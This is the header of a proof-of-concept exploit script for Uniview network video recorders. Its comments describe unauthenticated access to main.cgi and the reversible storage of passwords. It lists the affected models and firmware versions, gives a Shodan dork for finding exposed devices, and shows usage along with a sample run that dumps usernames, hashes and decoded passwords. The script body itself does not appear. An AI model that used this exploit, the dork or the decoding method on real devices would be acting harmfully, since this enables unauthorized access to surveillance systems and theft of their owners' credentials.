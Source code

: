 #Uniview NVR remote passwords disclosure
#Author: B1t0N

# The Uniview NVR web application does not enforce authorizations on the main.cgi file when requesting json data.
# It means that you can do anything without authentication, however you must know the request structure.
# In addition, the users' passwords are both hashed and also stored in a reversible way
# The POC below remotely downloads the device's configuration file, extracts the credentials
# and decodes the reversible password strings using my crafted map

# It is worth mention that when you login, the javascript hashes the password with MD5 and pass the request.
# If the script does retrieve the hash and not the password, you can intercept the request and replace the generated
# MD5 with the one disclosed using this script


# Tested on the following models:
#   NVR304-16E - Software Version B3118P26C00510
#   NVR301-08-P8 - Software Version B3218P26C00512
#							version B3220P11
#							version B3219P22

#
# Other versions may also be affected

#Shodan dork for similar devices: "Text.VideoManageSystem"

#Usage: python nvr-pwd-disc.py http://Host_or_IP:PORT

# Run example:

# root@k4li:~# python nvr-pwd-disc.py http://192.168.1.5
#
# Uniview NVR remote passwords disclosure!
# Author: B1t0n
#
# [+] Getting model name and software version...
# Model: NVR301-08-P8
# Software Version: B3218P26C00512
#
# [+] Getting configuration file...
# [+] Number of users found: 4
#
# [+] Extracting users' hashes and decoding reversible strings:
#
# User 	|	 Hash 	|	 Password
# _________________________________________________
# admin 	|	3b9c687b1f4b9d87ed0fdd6a***** 	|	<TRIMMED>
# default 	|	 	|	||||||||||||||||||||
# HAUser 	|	288b836a37578141fea6527b5e***** 	|	123HAUser*****
# test 	|	51b2454c681f3205f63b83720***** 	|	AA123pqrst*****
#
#  *Note that the users 'default' and 'HAUser' are default and sometimes inaccessible remotely
